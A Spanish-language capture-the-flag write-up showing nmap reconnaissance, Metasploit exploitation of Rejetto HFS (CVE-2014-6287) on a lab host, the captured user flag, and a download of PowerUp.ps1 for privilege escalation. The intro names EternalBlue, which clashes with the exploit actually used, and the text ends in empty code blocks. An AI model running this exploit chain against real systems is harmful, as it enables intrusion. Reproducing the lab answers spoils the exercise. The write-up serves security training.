# Modulo Blue
En este modulo se explica como vulnerar un sistema comprometido con el exploit eternalblue de windows. Ocuparemos metasploit para esto.

## Fases
1. Reconocimiento
2. Explotacion
3. Crack hashes
4. Capture the flag

### 1. Reconocimiento

```
nmap 10.10.253.18
```
```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-31 00:37 BST
Stats: 0:00:53 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 00:37 (0:00:00 remaining)
Nmap scan report for ip-10-10-253-18.eu-west-1.compute.internal (10.10.253.18)
Host is up (0.00041s latency).
Not shown: 989 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
MAC Address: 02:4A:9E:E8:5D:75 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 60.50 seconds
```

Scan the machine with nmap. What is the other port running a web server on? **8080**
```
msfdb init
msfconsole
```
```
workspace -a silvermountain
```
```
db_nmap -sV --script=vuln -p80,8080 10.10.253.18
```
```
[*] Nmap: Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-31 00:39 BST
[*] Nmap: Stats: 0:00:18 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
[*] Nmap: Service scan Timing: About 0.00% done
[*] Nmap: Stats: 0:00:21 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
[*] Nmap: NSE Timing: About 87.76% done; ETC: 00:39 (0:00:00 remaining)
[*] Nmap: Nmap scan report for ip-10-10-253-18.eu-west-1.compute.internal (10.10.253.18)
[*] Nmap: Host is up (0.00013s latency).
[*] Nmap: PORT     STATE    SERVICE VERSION
[*] Nmap: 80/tcp   filtered http
[*] Nmap: 8080/tcp open     http    HttpFileServer httpd 2.3
[*] Nmap: |_http-csrf: Couldn't find any CSRF vulnerabilities.
[*] Nmap: |_http-dombased-xss: Couldn't find any DOM based XSS.
[*] Nmap: | http-fileupload-exploiter:
[*] Nmap: |
[*] Nmap: |     Couldn't find a file-type field.
[*] Nmap: |
[*] Nmap: |_    Couldn't find a file-type field.
[*] Nmap: | http-method-tamper:
[*] Nmap: |   VULNERABLE:
[*] Nmap: |   Authentication bypass by HTTP verb tampering
[*] Nmap: |     State: VULNERABLE (Exploitable)
[*] Nmap: |       This web server contains password protected resources vulnerable to authentication bypass
[*] Nmap: |       vulnerabilities via HTTP verb tampering. This is often found in web servers that only limit access to the
[*] Nmap: |        common HTTP methods and in misconfigured .htaccess files.
[*] Nmap: |
[*] Nmap: |     Extra information:
[*] Nmap: |
[*] Nmap: |   URIs suspected to be vulnerable to HTTP verb tampering:
[*] Nmap: |     /~login [GENERIC]
[*] Nmap: |
[*] Nmap: |     References:
[*] Nmap: |       https://www.owasp.org/index.php/Testing_for_HTTP_Methods_and_XST_%28OWASP-CM-008%29
[*] Nmap: |       http://www.mkit.com.ar/labs/htexploit/
[*] Nmap: |       http://www.imperva.com/resources/glossary/http_verb_tampering.html
[*] Nmap: |_      http://capec.mitre.org/data/definitions/274.html
[*] Nmap: |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
[*] Nmap: | http-vuln-cve2011-3192:
[*] Nmap: |   VULNERABLE:
[*] Nmap: |   Apache byterange filter DoS
[*] Nmap: |     State: VULNERABLE
[*] Nmap: |     IDs:  OSVDB:74721  CVE:CVE-2011-3192
[*] Nmap: |       The Apache web server is vulnerable to a denial of service attack when numerous
[*] Nmap: |       overlapping byte ranges are requested.
[*] Nmap: |     Disclosure date: 2011-08-19
[*] Nmap: |     References:
[*] Nmap: |       http://osvdb.org/74721
[*] Nmap: |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
[*] Nmap: |       http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
[*] Nmap: |       http://seclists.org/fulldisclosure/2011/Aug/175
[*] Nmap: |_      http://nessus.org/plugins/index.php?view=single&id=55976
[*] Nmap: |_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
[*] Nmap: MAC Address: 02:4A:9E:E8:5D:75 (Unknown)
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 90.46 seconds
```
Take a look at the other web server. What file server is running?: **Rejetto http file server**

What is the CVE number to exploit this file server?: **2014-6287**

```
search type:exploit 2014-6287
use exploit/windows/http/rejetto_hfs_exec
set rhosts 10.10.253.18
set rport 8080
exploit
shell
```

```
type C:\Users\bill\Desktop\user.txt
```

Use Metasploit to get an initial shell. What is the user flag?: **b04763b6fcf51fcd7c13abc7db4fd365**

## 2. Escalar privilegios

Descargar PowerUp.ps1 en maquina atacante y subir al host victima
```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

En metasploit subir archivo
```
upload /root/PowerUp.ps1
```

```
```

```
```

```
```

```
```

```
```

```

---
Metalback